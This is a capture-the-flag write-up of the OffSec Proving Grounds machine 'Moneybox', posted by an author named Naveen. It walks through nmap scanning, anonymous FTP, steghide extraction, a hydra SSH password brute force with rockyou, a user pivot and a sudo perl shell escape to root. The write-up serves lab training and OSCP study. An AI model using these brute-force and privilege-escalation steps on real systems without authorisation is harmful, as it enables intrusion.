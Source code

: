 ```yaml
---
title: "Proving grounds Play: Moneybox"
layout: post
date: 2023-09-12 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e30ce7281e0a23d5c28888b12acfaac (RSA)
|   256 019dfafbf20637c012fc018b248f53ae (ECDSA)
|_  256 2f34b3d074b47f8d17d237b12e32f7eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: MoneyBox
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing: Directories

```text
/blogs
```

### Landing page

![img](/assets/images/CTF/Proving_Grounds/Moneybox/web1.png)

View-source disclosed a hint about the secret directory 

```html
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

The secret directory source disclosed a secret key `<!..Secret Key 3xtr4ctd4t4 >`.

## FTP

FTP allows anonymous login.

![img](/assets/images/CTF/Proving_Grounds/Moneybox/ftp.png)

Download the image file and use the secretkey found earlier as password to extract information.

```sh
steghide extract -sf trytofind.jpg
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/steghide.png)

A file names data.txt has been written to the same directory, that contains hint about the user and password.

```text
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

## Crack SSH credentials using hydra

```sh
hydra -l renu -P /usr/share/wordlists/rockyou.txt 192.168.180.230 -t 4 ssh
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/ssh-crack.png)

SSH to user `renu` using the password.

**Initial Foothold obtained**

![img](/assets/images/CTF/Proving_Grounds/Moneybox/renu-dir.png)

After searching the directoriees in renu user ,an another user was found in the `/home` directory `lily`.

The user lily has a SSH authorized key which belongs to the user renu, SSH to user lily from user renu.

![img](/assets/images/CTF/Proving_Grounds/Moneybox/lily.png)

## Enumerate user permission

```sh
sudo -l
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/sudo-l.png)

## Privilege Escalation

### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```sh
sudo perl -e 'exec "/bin/sh";'
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).